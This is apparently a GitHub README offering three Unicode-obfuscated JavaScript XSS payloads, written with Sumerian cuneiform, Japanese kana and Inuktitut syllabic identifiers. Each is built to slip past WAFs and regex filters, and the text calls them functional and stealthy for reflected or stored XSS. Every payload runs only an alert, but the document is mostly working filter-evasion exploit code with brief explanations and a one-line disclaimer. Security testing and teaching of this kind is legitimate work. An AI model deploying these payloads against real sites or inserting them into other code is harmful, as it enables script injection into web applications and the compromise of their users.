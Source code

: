 
# 🧠 Unicode-Based XSS Payloads – Ancient Scripts vs. Modern Filters
![Unicode-Based XSS Payloads - CyberSecPlayground](https://github.com/user-attachments/assets/5cec7fdd-476a-4ab3-a1e4-998cb7ae4048)

## Overview

This file demonstrates **Unicode-obfuscated XSS (Cross-Site Scripting)** payloads that leverage non-standard Unicode characters such as **Sumerian Cuneiform** and **Japanese Kana** to bypass naive input filters, WAFs, or static regex-based sanitization. These payloads are functional, stealthy, and great for both **bug bounty testing** and **educational demonstrations**.

---

## Payload 1: Sumerian Cuneiform Unicode XSS

```js
𒀱='',𒁍=!𒀱+𒀱,𒂖=!𒁍+𒀱,𒃵=𒀱+{},𒄿=𒁍[𒀱++],𒅗=𒁍[𒀲=𒀱],
𒆜=++𒀲+𒀱,𒇻=𒃵[𒀲+𒆜],
𒁍[𒇻+=𒃵[𒀱]+(𒁍.𒂖+𒃵)[𒀱]+𒂖[𒆜]+𒄿+𒅗+𒁍[𒀲]+𒇻+𒄿+𒃵[𒀱]+𒅗][𒇻](𒂖[𒀱]+𒂖[𒀲]+𒁍[𒆜]+𒅗+𒄿+"('𒀱𒀲𒀱𒋻𒆜𒀲𒁂𒐫𒉿𒀜𒅔')")()
```

### ✅ Explanation:

- Uses valid Unicode cuneiform characters as JavaScript variable names.
- Dynamically constructs and executes: `alert('𒀱𒀲𒀱𒋻𒆜𒀲𒁂𒐫𒉿𒀜𒅔')`
- Evades traditional filters and regex-based protection.
- Excellent for bypassing naive WAFs or static filters.

---

## Payload 2: Japanese Kana Unicode XSS

```js
あ='',い=!あ+あ,う=!い+あ,え=あ+{},お=い[あ++],か=い[き=あ],
く=++き+あ,け=え[き+く],
い[け+=え[あ]+(い.う+え)[あ]+う[く]+お+か+い[き]+け+お+え[あ]+か][け](う[あ]+う[き]+い[く]+か+お+"('ハッキングされました')")()
```

### ✅ Explanation:

- Obfuscated JS using Japanese Hiragana characters.
- Gradually builds and executes: `alert('ハッキングされました')`
- Functions identically to standard `alert()` payloads.
- Unicode characters are allowed as JS identifiers, so they bypass many basic filters.

---

## 🔍 Why These Work

- **JavaScript supports Unicode variable names**, so these are parsed and executed just like any normal code.
- **WAFs and static filters** often scan for common patterns like `alert`, `script`, or standard ASCII payloads. These bypass such patterns.
- Great for **reflected XSS**, **stored XSS**, or **CTF-style evasions**.

---
## Payload 3 : Payload Written in Inuktitut
```
ᐊ='',ᐃ=!ᐊ+ᐊ,ᐅ=!ᐃ+ᐊ,ᐱ=ᐊ+{},ᑎ=ᐃ[ᐊ++],ᓇ=ᐃ[ᓕ=ᐊ],ᓯ=++ᓕ+ᐊ,ᓂ=ᐱ[ᓕ+ᓯ],
ᐃ[ᓂ+=ᐱ[ᐊ]+(ᐃ.ᐅ+ᐱ)[ᐊ]+ᐅ[ᓯ]+ᑎ+ᓇ+ᐃ[ᓕ]+ᓂ+ᑎ+ᐱ[ᐊ]+ᓇ]
    [ᓂ](ᐅ[ᐊ]+ᐅ[ᓕ]+ᐃ[ᓯ]+ᓇ+ᑎ+"('ᐊᐃᓐᓇᓂᐅᑦ ᐱᔭᓯᓕᖅ')")()
```

### ✅ Explanation:
- Uses Unicode syllabic characters as valid JS variable names
- No alphanumeric characters are used, bypassing simple keyword filters
- The technique works because:   
  ![]+[] → "false"   
  +[] → 0   
  []+{} → "[object Object]"   
 
These strings are then indexed to get individual letters
## ⚠️ Disclaimer

These payloads are intended for educational use in **authorized environments only**. Never use them for illegal activities.

---

## 📡 Follow Us

- 🔗 Telegram: [@cybersecplayground](https://t.me/cybersecplayground)
- 🔗 GitHub: [https://github.com/cybersecplayground](https://github.com/cybersecplayground)
- 🔗 Medium: [https://medium.com/@cybersecplayground](https://medium.com/@cybersecplayground)

### 🏷 Tags:
`#XSS` `#UnicodeXSS` `#BugBounty` `#infosec` `#websecurity` `#WAFBypass` `#cybersecplayground`
